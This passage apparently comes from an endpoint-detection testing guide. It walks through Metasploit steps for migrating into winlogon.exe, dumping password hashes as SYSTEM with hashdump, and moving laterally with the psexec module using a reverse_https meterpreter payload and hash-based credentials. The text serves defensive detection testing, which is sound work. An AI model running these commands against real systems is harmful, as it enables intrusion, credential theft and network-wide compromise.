 (Example winlogon.exe)

Run migrate with process id of target
```
meterpreter > migrate 812
[*] Migrating from 7236 to 812...
[*] Migration completed successfully.
```
## Credential Access

Execute from session running as SYSTEM and complete Process Injection test first.
```
msf6 exploit(multi/handler) > sessions -i N
[*] Starting interaction with N...

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM


meterpreter > hashdump 
Administrator:500:EXAMPLEb51404eeaad3b435b51404ee:EXAMPLE6ae931b73c59d7e0c089c0:::
```
# Phase 2 Testing

## Lateral movement

This test starts at the conclusion of [Phase 1](https://github.com/blumirabrian/endpoint-detection-methology/blob/main/msf/MSF-Phase-1.md) complete that test first before starting Phase 2.

For this test we will move laterally using the PsExec module in metasploit. We are using an assume breach methodology so run test with a user that has administrative permissions to the test user or is domain admin on the testing domain.

```
use exploit/windows/smb/psexec

msf6 exploit(windows/smb/psexec) > set payload windows/meterpreter/reverse_https

msf6 exploit(windows/smb/psexec) > set RHOST 172.16.2.X

set SMBDomain miratime.org
set SMBUser exampleuser
set SMBPass HASH/PW
set SESSION N

msf6 exploit(windows/smb/psexec) > exploit -j
```
Upon successful execution of this test you should get a new meterpreter session on the server.

![Lateral Session](https://raw.githubusercontent.com/blumirabrian/endpoint-detection-methology/main/msf/edr9.png "Lateral Session")
